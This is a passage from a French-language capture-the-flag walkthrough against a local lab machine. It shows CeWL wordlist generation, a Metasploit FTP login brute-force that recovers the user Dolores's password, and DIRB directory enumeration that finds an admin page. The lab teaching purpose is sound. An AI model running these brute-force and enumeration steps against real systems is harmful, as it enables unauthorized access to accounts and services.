 Soit la taille du mot de passe de Dolores est inférieure à huit caractères, soit il s'agit d'une fausse piste... réessayons avec des mots de passe entre quatre et sept caractères ! La commande ```sed``` permet de retirer à la fois les mots d'au moins huit lettres et les sauts de ligne superflus.

```console
root@blinils:~# cewl -d 1 -m 4 -w dicoWWorld.txt http://192.168.56.101
CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

root@blinils:~# sed -r 's/\b\w{8,}\s?\b//g' dicoWWorld.txt | sed '/^[[:space:]]*$/d' > dicoWWorld4-7.txt

root@blinils:~# wc -l dicoWWorld4-7.txt
292 dicoWWorld4-7.txt

root@blinils:~# head -n 5 dicoWWorld4-7.txt
Dolores
guest
with
Teddy
Insider
```

Un peu moins de trois cents mots de passe à tester cette fois-ci !

```console
msf5 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE dicoWWorld4-7.txt
PASS_FILE => dicoWWorld4-7.txt
msf5 auxiliary(scanner/ftp/ftp_login) > run

[*] 192.168.56.101:21     - 192.168.56.101:21 - Starting FTP login sweep
[!] 192.168.56.101:21     - No active DB -- Credential data will not be saved!
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Dolores (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:guest (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:with (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Teddy (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Insider (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:then (Incorrect: )
[+] 192.168.56.101:21     - 192.168.56.101:21 - Login Successful: Dolores:loop
[*] 192.168.56.101:21     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

En parallèle, une analyse du site Web est menée avec l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb), qui se sert d'une liste pré-établie de répertoires afin de déterminer d'éventuels répertoires cachés. Bingo, une page ```admin.php``` est présente, c'est peut-être à cet autre endroit-là que le mot de passe de Dolores doit être fourni !

```console
root@blinils:~# dirb http://192.168.56.101

--snip--
+ http://192.168.56.101/admin.php (CODE:200|SIZE:295)
+ http://192.168.56.101/cgi-bin/ (CODE:403|SIZE:297)
+ http://192.168.56.101/index.html (CODE:200|SIZE:143498)
+ http://192.168.56.101/server-status (CODE:403|SIZE:302)
--snip--
```
